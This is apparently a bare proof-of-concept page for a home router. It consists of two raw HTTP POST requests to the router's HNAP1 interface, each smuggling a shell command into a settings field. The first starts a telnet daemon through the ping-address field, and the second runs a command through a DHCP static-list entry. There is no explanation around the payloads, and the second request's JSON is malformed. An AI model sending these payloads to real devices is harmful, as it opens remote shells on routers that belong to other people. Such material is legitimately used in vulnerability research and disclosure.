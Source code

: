 



```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
Content-Length: 230
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Home.html?t=1700472754954
Cookie: PHPSESSID=e9920db8aee2f5b998590af3e5eb20d3; uid=LVAxmY29; PrivateKey=BB1FEDF0DF83D8E15348FE7C93037EA3; 

{
    "SetNetworkTomographySettings":{
    "tomography_ping_address":"http://example.com/'&telnetd&echo'1",
    "tomography_ping_number":"1",
    "tomography_ping_size":"4",
    "tomography_ping_timeout":"",
    "tomography_ping_ttl":""
	}
}
```







```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
Content-Length: 260
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Home.html?t=1700472754954
Cookie: PHPSESSID=e9920db8aee2f5b998590af3e5eb20d3; uid=ye2PVqI8; PrivateKey=CCEB89E7E0DAB212E9FEB4A4695A017E

{
    "SetIpMacBindSettings":{
    "lan_unit":"0"
    "lan(0)_dhcps_staticlist":"1,$(id>rce_confirmed),02:42:d6:f9:dc:4e,192.168.0.15"
}
```







